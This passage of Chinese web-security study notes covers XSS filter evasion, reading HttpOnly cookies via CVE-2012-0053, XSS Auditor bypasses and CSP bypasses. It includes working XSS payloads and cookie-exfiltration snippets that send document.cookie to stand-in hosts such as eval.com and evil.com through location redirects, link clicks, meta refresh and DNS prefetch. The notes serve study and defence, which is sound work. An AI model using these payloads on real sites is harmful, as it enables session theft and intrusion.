 ```html
<iframe src="http://example.com/xss.php?input=%3Cinput%20onfocus=$(window.name)%3E" name="<img src='x' onerror=alert(/xss/)/>"/>
```
- 注释
```text
stage 1: <script>/*
stage 2: */slert/*
stage 3: */</script>
```
#### 6.7.6 HttpOnly绕过
HttpOnly是cookie的一个安全属性，设置后可在XSS漏洞发生时避免JS读到cookie，即使设置了该属性，仍有办法读到cookie
1. CVE-2012-0053
Apache2.2.0-2.2.21攻击者可通过向网站植入超大的cookie，令其头超过Apache的LimitRequestFieldSize（最大请求长度，4192字节）,使得Apache返回400错误，状态页中包含保护的cookie
[源代码](https://www.exploit-db.com/exploits/18442)
除Apache，其他的Web服务器在使用者不了解其特性的情况下页很容易出现HttpOnly保护的cookie被爆出的情况，如Squid等
2. PHPINFO
phpinfo()函数会输出当前请求上下文的cookie信息
3. Flash/Java
客户端信息泄露Flash/Java API[地址](http://seckb.yehg.net/2012/06/xss-gaining-access-to-httponly-cookie.html)
#### 6.7.7 XSS Auditor绕过
- 字符集编码绕过
低版本的chrome对ISO-2022-JP等编码处理不当，当页面没有设置默认编码并使用这个日语字符集时，XSS Auditor检查的部分会像Payload添加0x0f字符，达到绕过目的
```html
<meta charset="ISO-2022-JP"><img sec="#" onerror%1B28B=alert(1)/>
```
- 协议理解问题
如果加载的脚本在自身目录下，并且XSS的输出点在HTML属性中，XSS Auditor不会进行拦截，如果检测到//这样的外部链接则会触发导致无法加载脚本
`http://example.com/xss.php?input=1"><link%20rel="import"%20href=https:evil.com/1.php`
- CRLF绕过
如果在HTTP响应头中注入CRLF并在新一行中写入X-XSS-Protection:0，接下来的XSS代码将不会被拦截
#### 6.7.8 [内容安全策略（CSP）](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP)绕过
CSP可以防止攻击者从外部网站跨域加载恶意代码，但不能防止数据泄露
1. CSP配置错误
	-  策略定义不全或未使用default-src来补全
	- script-src的源列表包含unsafe-inline（并且没有使用nonce或hash策略）或允许data伪协议
	- script-src或object-src源列表包含攻击者可控制的部分源地址（文件上传、JSON Hijacking、SOME攻击），或者包含不安全的库
	- 源地址列表滥用通配符
	- ...
其中第二种可以直接使用事件属性或script标签执行代码
2. [[../Protocol/HTTP/CSP#unsafe-inline|unsafe-inline]]绕过
除script开启unsafe-inline模式之外，其余资源仅允许加载同域，可用绕过方式如下：
	- DNS Prefetch 由于link标签最新的rel属性dns-prefetch尚未被加入CSP实现中，使用如下payload即可发送一条DNS解析请求，在NS服务器下查看解析日志便可得到如下内容：`<link rel="dns-prefetch" href="[cookie].evil.com">`
	- location.href 大部分网站跳转还是依赖前端来进行，在CSP中无法对location进行限制，由此衍生出大量绕过方式
```html
<!--bypass1-->
<script>location='http://eval.com/cookie.php?cookie='+escape(document.cookie);</script>
<!--bypass2-->
<script>
	var a = document.createElement("a");
	a.href='http://eval.com/cookie.php?cookie='+escape(document.cookie);
	document.body.appendChild(a);
	a.click();
</script>
<!--bypass3-->
<meta http-equiv="refresh" content="1;url=http://eval.com/cookie.php?data=[cookie]">
```
3. 严苛规则[[../Protocol/HTTP/CSP#script-src 'self'|script-src 'self']]下的绕过
关闭unsafe-inline模式，所有资源仅允许同源加载。此时可以重定向（302）导致绕过，如果将script-src设置为某个目录，通过该目录下的302跳转是可以绕过CSP取到记载其他目录的资源的